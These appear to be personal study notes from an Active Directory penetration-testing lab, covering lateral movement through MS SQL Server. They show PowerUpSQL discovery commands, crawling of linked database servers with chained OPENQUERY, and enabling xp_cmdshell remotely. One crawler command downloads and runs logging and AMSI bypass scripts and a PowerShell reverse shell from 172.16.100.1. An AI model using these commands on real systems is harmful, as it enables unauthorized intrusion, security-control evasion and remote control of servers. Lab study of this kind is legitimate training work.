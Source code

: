 MS SQL servers are generally deployed in plenty in a Windows domain

SQL Servers provide very good options for lateral movement as domain users can be mapped to database roles.

#### [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

```powershell
 . .\PowerUpSQL-master\PowerUpSQL.ps1
```
###### Discovery (SPN Scanning) - find all mssql SPNs (default for mssql servers)
```powershell
Get-SQLInstanceDomain
```

###### Check Accessibility 
```powershell
Get-SQLConnectionTestThreaded

Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

###### Gather Information
```powershell
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

>**Note:** Review `ServiceName`, `AuthenticationMode`, `IsSysadmin` and `ActiveSessions`
#### Database Links
A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources. In case of database links between SQL servers, that is, linked SQL servers it is possible to execute stored procedures

> **Note**: Database links work even across forest trusts. **Forest security boundaries can't even stop it**

[^1]![[Pasted image 20250521200749.png]]
###### Search for Database Links
```powershell
Get-SQLServerLink -Instance dcorp-mssql -Verbose
```

![[Pasted image 20250521201158.png]]


> [!NOTE] **NOTE**
> Connect to host using the `HeidiSQL` client


 Manual
```sql
select * from master..sysservers
```

###### Enumerating Database Links 
Jesus lol
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose
```

![[Pasted image 20250521201531.png]]

Manual - The `Openquery()` function can be used to run queries on a linked database
```sql
select * from openquery("dcorp-sql1",'select * from master..sysservers')
```

Manual - `Openquery()` queries can be chained to access links within links (nested
links)
```sql
select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt",''select * from master..sysservers'')')
```

###### Executing Commands

> [!NOTE] **Note**
>  If `rpcout` is enabled (disabled by default), `xp_cmdshell` can be enabled like so:
> ```sql
> EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "eu-sql"

Run commands using crawler
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'cmd /c set username'" -QueryTarget eu-sql
```

Reverseshell
```powershell
Get-SQLServerLinkCrawl -Instance dbserver31.tech.finance.corp -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://172.16.100.1/sbloggingbypass.txt); iex (iwr -UseBasicParsing http://172.16.100.1/amsibypass.txt); iex (iwr http://172.16.100.1/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.1 -Port 443"''' 
```

Manual
```sql
select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt",''select * from openquery("eu-sql.eu.eurocorp.local",''''select @@version as version;exec master..xp_cmdshell "powershell whoami)'''')'')')
```


